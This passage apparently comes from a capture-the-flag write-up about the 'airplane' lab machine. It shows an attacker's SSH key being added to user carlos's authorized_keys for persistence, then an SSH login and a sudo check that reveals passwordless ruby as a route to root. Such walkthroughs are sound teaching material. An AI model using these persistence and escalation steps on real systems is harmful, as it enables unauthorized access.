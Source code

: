 ```bash
cd /home/carlos/.ssh
touch authorized_keys
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEb2nYCbJxhxV+hNepGV1nB0vOewtoF+32xY62Xch1/J kali@kali" >> authorized_keys
```

Now, from my local machine, I could SSH directly into the target as carlos:


```console
─(kali㉿kali)-[~/Desktop]
└─$ ssh carlos@airplane.thm     
Enter passphrase for key '/home/kali/.ssh/id_ed25519': 
Enter passphrase for key '/home/kali/.ssh/id_ed25519': 
Enter passphrase for key '/home/kali/.ssh/id_ed25519': 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

carlos@airplane:~$ 

```

## Root Access via Misconfigured `sudo` and Ruby

After gaining access to the user `carlos` - and setting up SSH access for persistence - I began looking for ways to escalate privileges to root. A great first step in this process is checking the current user's sudo permissions using:

```console
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
